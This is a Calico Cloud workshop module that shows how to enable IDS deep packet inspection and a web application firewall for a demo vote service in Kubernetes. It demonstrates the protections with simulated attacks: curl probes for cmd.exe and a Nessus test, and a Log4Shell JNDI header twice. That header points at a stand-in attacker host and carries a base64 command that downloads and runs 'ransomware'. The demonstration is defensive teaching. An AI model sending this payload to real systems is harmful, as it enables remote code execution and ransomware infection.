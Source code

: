 # Module 5 - Configuring IDS protection and Workload-Centric WAF

Security teams need to run DPI quickly in response to unusual network traffic in clusters so they can identify potential threats. Also, it is critical to run DPI on select workloads (not all) to efficiently use cluster resources and minimize the impact of false positives. Calico Cloud provides an easy way to perform DPI using Snort community rules. You can disable DPI at any time, selectively configure for namespaces and endpoints, and alerts are generated in the `Alerts` dashboard in Manager UI.

For this workshop, we will enable the IDS for the vote service and observe the alerts being created when trying to exploit some vulnerabilities.

1. First enable the `Intrusion Detection`

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: operator.tigera.io/v1
   kind: IntrusionDetection
   metadata:
     name: tigera-secure
   spec:
     componentResources:
     - componentName: DeepPacketInspection
       resourceRequirements:
         limits:
           cpu: "1"
           memory: 1Gi
         requests:
           cpu: 100m
           memory: 100Mi
   EOF
   ```

2. Next, create a `DeepPacketInspection` for the vote application in the vote namespace.

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: projectcalico.org/v3
   kind: DeepPacketInspection
   metadata:
     name: dpi-ids-vote
     namespace: vote
   spec:
     selector: app == "vote"
   EOF
   ```

3. Test the IDS emulating an attack to the vote service:

   - Find the IP address of the vote application and export it to the `VOTE_EXTERNAL` environment variable

     ```bash
     export VOTE_EXTERNAL=$(kubectl get svc -n vote vote -o=jsonpath='{.status.loadBalancer.ingress[*].hostname}')
     ```

   - From your shell, execute the following commands.

     ```bash
     curl -m2 http://$VOTE_EXTERNAL/cmd.exe
     curl -m2 http://$VOTE_EXTERNAL/NessusTest
     ```

   - Observe the results in the Service Graph to see the generated alerts that will warn you about the exploitation attempt.

---

A web application firewall (WAF) safeguards web applications against a range of application layer attacks, including cross-site scripting (XSS), SQL injection, and cookie poisoning. Given that application attacks are the primary cause of breaches, protecting the HTTP traffic that serves as a gateway to valuable application data is crucial.

Calico Cloud WAF allows you to selectively run service traffic within your cluster and protect intra-cluster traffic from common HTTP-layer attacks. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

1. Deploy the WAF by running the following command:

   ```bash
   kubectl apply -f waf
   ```

2. Open a new Cloud Shell session and start a pod to simulate an attack on the vote service.

   ```bash
   kubectl run attacker --image nicolaka/netshoot -it --rm -- /bin/bash
   ```
3. Before protecting the service with the WAF, try the following command from the attacker shell. This request will simulate a LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

4. Now enable the WAF using the following command from your shell (not from the pod attacker).

   ```
   kubectl patch applicationlayer tigera-secure --type='merge' -p '{"spec":{"webApplicationFirewall":"Enabled"}}'
   ```

5. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```
   
   You will note that the result will be an HTTP 403 - Forbidden. This reponse returns from the WAF.

--- 

[:arrow_right: Module 6 - Quarantine Infected Workloads and KSPM](/mod/module-6-quarantine-kspm.md)  <br>

[:arrow_left: Module 4 - Security Guardrails for Network-based Threats](/mod/module-4-security-guardrails.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
